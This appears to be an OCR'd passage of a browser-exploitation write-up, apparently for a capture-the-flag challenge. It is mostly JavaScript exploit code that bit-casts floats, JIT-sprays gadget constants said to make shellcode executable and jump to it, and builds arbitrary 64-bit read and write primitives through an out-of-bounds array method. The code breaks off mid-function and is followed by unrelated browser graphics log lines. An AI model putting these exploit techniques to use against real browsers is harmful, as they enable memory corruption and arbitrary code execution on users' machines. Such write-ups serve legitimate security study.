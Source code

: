 
That's basically it, not we just have to put it all together

```js
let converter = new ArrayBuffer(8);
let u64view = new BigUint64Array(converter);
let f64view = new Float64Array(converter);

// Bit-cast an uint64_t to a float64
function i2d(x) {
    u64view[0] = x;
    return f64view[0];
}

// Bit-cast a float64 to an uint64_t
function d2i(x) {
    f64view[0] = x;
    return u64view[0];
}

function print(x) {
    console.log(x);
}

function hex(x) {
    return `0x${x.toString(16)}`;
}

function assert(x, msg) {
    if (!x) {
        throw new Error(msg);
    }
}

// https://github.com/vigneshsrao/CVE-2019-11707/blob/master/exploit.js#L196
// mprotects the shellcode whose address is in [rcx] as rwx and jumps to it
function jitme () {
    const magic = 4.183559446463817e-216;

    const g1 = 1.4501798452584495e-277;
    const g2 = 1.4499730218924257e-277;
    const g3 = 1.4632559875735264e-277;
    const g4 = 1.4364759325952765e-277;
    const g5 = 1.450128571490163e-277;
    const g6 = 1.4501798485024445e-277;
    const g7 = 1.4345589835166586e-277;
    const g8 = 1.616527814e-314;
}

function pwn() {
    let a = new Array(1,2,3,4,5,6);
    let b = new BigUint64Array(1);

    // Read 64 bits from addr
    function read64(addr) {
        const olddata = a.oob(13);
        a.oob(13, i2d(addr))
        const ret = b[0];
        a.oob(13, olddata);
        return ret;
    }

    // Write 64 bits to addr
    function write64(addr, value) {
        const olddata = a.oob(13);
```

[GFX1-]: glxtest: libpci missing
[GFX1-]: glxtest: libGL.so.1 missing
[GFX1-]: glxtest: libEGL missing
[GFX1-]: No GPUs detected via PCI
[GFX1-]: RenderCompositorSWGL failed mapping default framebuffer, no dt